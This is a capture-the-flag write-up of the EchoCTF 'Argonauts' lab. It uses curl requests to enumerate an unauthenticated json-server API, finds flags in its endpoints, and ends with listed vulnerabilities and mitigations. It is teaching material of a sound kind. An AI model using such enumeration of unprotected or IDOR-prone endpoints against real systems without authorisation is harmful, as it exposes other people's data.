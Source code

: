 
![jason1](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/ARGONAUTS/jason1.png)
# Argonauts - CTF Writeup

**IP:** http://10.0.41.12:1337

---

## Introduction

The **Argonauts** machine from **EchoCTF** presents a challenge based on exploring a JSON API. The goal is to discover hidden flags by accessing different endpoints revealing information about vehicles, owners, and vehicle types. The machine runs on a JSON Server backend exposing data via RESTful endpoints.

---

## How json-server works

**json-server** is a tool that quickly creates a RESTful API from a JSON file, allowing CRUD operations over resources like `plates`, `owners`, and `types`. Each resource has a standard endpoint, and data can be retrieved or modified via HTTP calls.

---

## Reconnaissance and Exploration

Accessing `http://10.0.41.12:1337` shows documentation indicating:

![jason2](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/ARGONAUTS/jason2.png)

- Initial endpoint: `/DMV`
- Hidden endpoint for the flag: `/??????`

A quick review of [json-server documentation](https://github.com/typicode/json-server) helps understand its operation. The first query can be done via `curl` or directly through the browser URL; for practical reasons, we use `curl` here:

```bash
curl http://10.0.41.12:1337/DMV
```

Response:

```json
[
  {
    "id": 1,
    "plate_id": 1,
    "owner_id": 2,
    "type_id": 1
  },
  {
    "id": 2,
    "plate_id": 4,
    "owner_id": 2,
    "type_id": 1
  }
]
```

---

## Detailed Exploration

### `/plate/1`

```bash
curl http://10.0.41.12:1337/plate/1
```

Response:

```json
{
  "id": 1,
  "number": "6535 XYZ",
  "type_id": 1
}
```

### `/plate`

```bash
curl http://10.0.41.12:1337/plate
```

Response (snippet):

```json
[
  {"id":1,"number":"6535 XYZ","type_id":1},
  {"id":2,"number":"3735 QWE","type_id":2},
  {"id":3,"number":"ETSCTF_JUNO_WAS_HERE_HEHEHE","type_id":2},
  {"id":4,"number":"4890 LKJ","type_id":1},
  {"id":5,"number":"2193 JGH","type_id":2}
]
```

---

### `/owner`

```bash
curl http://10.0.41.12:1337/owner
```

Response:

```json
[
  {"id":2,"name":"Name Surname other"},
  {"id":3,"name":"ETSCTF_JUNO_WAS_HERE_HEHEHE"}
]
```

---

### `/type`

```bash
curl http://10.0.41.12:1337/type
```

Response:

```json
[
  {"id":1,"name":"VAN"},
  {"id":3,"name":"CAR"}
]
```

---

## Last flag found

Querying the hidden endpoint suggested in the documentation:

```bash
curl http://10.0.41.12:1337/ETSCTF
```

Response:

```json
{
  "value": "ETSCTF_JUNO_WAS_HERE_HEHEHE"
}
```

---

## Security Risks

- Total exposure of sensitive data without authentication.
- Lack of access control and validation.
- Implicit IDOR due to use of sequential IDs.
- Unprotected hidden endpoint.

---

## Vulnerabilities

- Lack of authentication and authorization.
- Exposure of flags through public endpoints.
- Lack of permission validation in the API.

---

## Mitigation Measures

- Implement authentication and authorization in the API.
- Use non-predictable identifiers (UUIDs).
- Restrict HTTP methods in production.
- Monitor accesses and suspicious activities.
- Avoid exposing sensitive data in public environments.

---

## Teaching Conclusion

This challenge exemplifies how a json-server without security measures can easily expose confidential data. It is crucial to apply access controls, validate permissions, and avoid unnecessary exposures in RESTful APIs.

---

**-Writeup by SheepsStealer-**
